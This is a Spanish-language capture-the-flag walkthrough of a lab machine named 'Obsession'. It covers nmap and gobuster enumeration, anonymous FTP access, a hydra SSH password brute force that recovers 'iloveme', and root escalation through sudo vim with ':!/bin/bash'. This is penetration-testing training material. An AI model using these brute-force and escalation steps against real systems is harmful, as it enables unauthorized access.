 # Obsession
![image](https://github.com/user-attachments/assets/f802b7b6-123e-447a-b256-1b4ca7050e52)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Como tenemos abierto el puerto 21,22,80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,22,80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18 03:20 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18 03:21 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBICJkT7eK4HDkyFx9Sdx52QBKAlOxD2HlDN9dnPLkFaFXa2pI5bRqIRDmJLAkBTyyx2/ifDUCyl0uGyB2ExHvQ8=
|   256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYEzfToqDm7m3dRLdvXwcIhNZzbIgwquUJvnII1jjJn
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
Mientras gobustar hace el esceno nos conectamos al **FTP** como *anonymous* y password da igual lo que pongamos, y nos descargamos los dos ficheros que están ahí.
```
ftp 172.17.0.2
mget *
```
Parece que en los ficheros no hay nada interesante, así que vemos el resultado del escaneo que habíamos dejado con **gobuster** y encontramos un direcotrio llamado **/backup**.
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```
Dentro del direcctorio **/backup** hay un archivo *.txt* que si lo abrimos tenemos imformación importante.

![image](https://github.com/user-attachments/assets/565355b9-55c3-4d29-9fd1-dc688c1c32d1)

Ya tenemos un posible usuario ***russoski***, así que como teníamos el puerto 22 abierto vamos a probar con hydra y fuerza bruta a conectarnos.
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Obtenemos la contraseña **iloveme** y nos conectamos con el usuario **russoski**

![image](https://github.com/user-attachments/assets/3783b387-3dc9-453a-a250-bbaea68587bf)

```
ssh russoski@172.17.0.2
```
![image](https://github.com/user-attachments/assets/9845a17f-484d-46fc-8ec5-40acc68ed421)

Una vez conectados, comprobamos si tenemos algún binario que podamos ejecutar con privilegios de **root** y nos encontramos que podemos ejecutar **/usr/bin/vim**.

![image](https://github.com/user-attachments/assets/98ec19ce-8c4d-4c5b-9a85-cd89738ac722)

```
sudo -uroot /usr/bin/vim
```
Desde dentro del editor tenemos que escribir los siguiente.

```
:!/bin/bash
```
Y ya estariamos como **root**.

![image](https://github.com/user-attachments/assets/4c76903b-36cc-4ea0-a699-a3a95e410245)
